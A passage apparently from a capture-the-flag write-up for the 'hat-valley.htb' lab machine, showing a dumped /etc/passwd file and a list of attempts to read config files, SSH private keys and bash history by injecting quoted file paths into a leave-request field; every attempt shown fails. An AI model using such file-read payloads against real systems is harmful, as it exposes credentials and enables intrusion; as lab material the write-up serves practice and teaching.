     gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    syslog:x:104:111::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:115::/run/uuidd:/usr/sbin/nologin
    systemd-oom:x:108:116:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
    tcpdump:x:109:117::/nonexistent:/usr/sbin/nologin
    avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
    usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
    avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
    cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
    rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
    whoopsie:x:117:124::/nonexistent:/bin/false
    sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
    speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
    nm-openvpn:x:120:126:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
    saned:x:121:128::/var/lib/saned:/usr/sbin/nologin
    colord:x:122:129:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
    geoclue:x:123:130::/var/lib/geoclue:/usr/sbin/nologin
    pulse:x:124:131:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
    gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
    hplip:x:126:7:HPLIP system user,,,:/run/hplip:/bin/false
    gdm:x:127:133:Gnome Display Manager:/var/lib/gdm3:/bin/false
    bean:x:1001:1001:,,,:/home/bean:/bin/bash
    christine:x:1002:1002:,,,:/home/christine:/bin/bash
    postfix:x:128:136::/var/spool/postfix:/usr/sbin/nologin
    mysql:x:129:138:MySQL Server,,,:/nonexistent:/bin/false
    sshd:x:130:65534::/run/sshd:/usr/sbin/nologin
    _laurel:x:999:999::/var/log/laurel:/bin/false
    ```

    I try to read notable files:
    - `/' /var/www/hat-valley.htb/config.js '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /var/www/hat-valley.htb/config.json '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /var/www/hat-valley.htb/config/default.json '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    <br>
    - `/' /var/www/private/config.js '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /var/www/private/config.json '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /var/www/private/config/default.json '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    <br>
    - `/' /home/christine/.ssh/id_rsa '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /home/christine/.bash_history '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /home/christine/.gitconfig '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    - `/' /home/christine/.bashrc '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read
    <br>
    - `/' /home/bean/.ssh/id_rsa '` &#8594; `Failed to retrieve leave requests` &#8594; doesn't exist or I can't read